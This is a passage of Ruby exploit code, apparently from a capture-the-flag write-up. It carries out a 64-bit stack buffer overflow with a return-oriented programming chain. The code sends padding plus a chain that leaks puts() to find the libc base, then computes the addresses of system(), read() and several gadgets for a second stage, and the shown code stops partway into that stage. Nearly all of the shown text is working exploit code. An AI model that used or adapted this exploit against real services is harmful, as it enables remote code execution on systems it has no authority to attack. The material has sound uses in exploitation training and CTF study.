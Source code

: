 ```ruby
# Read the next prompt
read_until(s, 'name?')

# Build the same stack from the write-up
EXPLOIT = [
  POP_RDI_RET, # Initial return address
    PUTS_PLT_ENTRY, # rdi = addr of puts() to print
  PUTS, # NEXT return address - actual puts()
  MAIN, # End at MAIN
].pack('Q*') # pack('Q*'), in Ruby, means encode as 64-bit little endian integers

# Send our overflow + exploit + newline
s.write(("A" * 56) + EXPLOIT + "\n")

# The last thing that prints before our payload is the address of POP_EDI_RET,
# so read to that
read_until(s, "\x81\x12\x40")

# Then read to the newline right after the leak
out = read_until(s, "\x0a")

# Remove the newline
out.gsub!(/\x0a$/, '')

# Now we have our libc base address!
LIBC_BASE_ADDRESS = (out + "\x00\x00").unpack('Q').pop
puts
puts "LIBC base (ie, addr of puts): 0x%x" % LIBC_BASE_ADDRESS
puts

# Now we kinda start over! Except now we can use addresses from libc.so,
# relative to the address we determined

# Address of system()
SYSTEM = LIBC_BASE_ADDRESS - 0x2edf0

# Address of sleep() - for testing
SLEEP = LIBC_BASE_ADDRESS + 0x7e1d0

# Address of pop rsi / pop <something I don't care> / ret
# (Recall we need rsi for second arg)
POP_RSI_POP_R15_POP_RBP_RET = LIBC_BASE_ADDRESS + 0x1919a7

# Address of pop rdx / pop <something I don't care> / ret
# (Recall we need rdx for third arg)
POP_RDX_RET = 0x401283

# Address of read() function, for populating memory
READ = LIBC_BASE_ADDRESS + 0x89d60

# Some random memory in the .data section that we can use for temp storage
WRITABLE_MEMORY = LIBC_BASE_ADDRESS + 0x163f60

# Read the initial banner (again)
welcome_str = read_until(s, 'enter!')

# Extract the number so we don't have to patch our binary anymore
welcome_str =~ /Enter ([0-9]+) char/

# Send the values it wants
s.write(('A' * $1.to_i) + "\n")

# Read the next prompt
```